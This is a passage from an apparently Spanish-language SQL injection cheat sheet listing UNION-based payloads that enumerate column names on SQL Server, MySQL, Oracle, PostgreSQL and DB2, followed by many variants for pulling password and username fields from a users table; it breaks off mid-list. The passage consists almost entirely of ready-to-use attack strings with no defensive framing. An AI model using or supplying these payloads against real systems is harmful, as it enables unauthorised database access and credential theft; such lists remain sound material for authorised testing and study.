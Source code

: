 * SQL Server
    ```sql
    ' UNION SELECT COLUMN_NAME, NULL FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'nombre de tabla' AND TABLE_SCHEMA = DB_NAME()--
    ```
* MySQL
    ```sql
    ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'nombre de tabla' AND table_schema = database()--
    ```
* Oracle
    ```sql
    ' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'nombre de tabla'--
    ```
* PostgeSQL
    ```sql
    ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'nombre de tabla' AND table_schema = current_schema()--
    ```
* IBM DB2
    ```sql
    ' UNION SELECT colname, NULL FROM syscat.columns WHERE tabname = 'nombre de tabla' AND tabschema = current schema--
    ```

#### Formas de consultar el contenido de las columnas

* Estándar
    ```sql
    ' UNION SELECT password, username FROM users--
    ```
* UNION ALL
    ```sql
    ' UNION ALL SELECT password, username FROM users--
    ```
* Cerrando un paréntesis antes de la unión
    ```sql
    ') UNION SELECT password, username FROM users--
    ```
* Uso de comillas dobles para los nombres de columna (dependiendo del DBMS)
    ```sql
    ' UNION SELECT "password", "username" FROM users--
    ```
*  Asignación de alias a la tabla
    ```sql
    ' UNION SELECT u.password, u.username FROM users u--
    ```
* Asignación de alias a las columnas
    ```sql
    ' UNION SELECT password AS p, username AS u FROM users--
    ```
* Uso de subconsulta
    ```sql
    ' UNION (SELECT password, username FROM users)--
    ```
* Cerrando un paréntesis antes de la unión con subconsulta
    ```sql
    ') UNION (SELECT password, username FROM users)--
    ```
* Uso de UNION SELECT múltiple
    ```sql
    ' UNION SELECT password FROM users UNION SELECT username FROM users--
    ```
* Concatenación de columnas (si el DBMS lo soporta)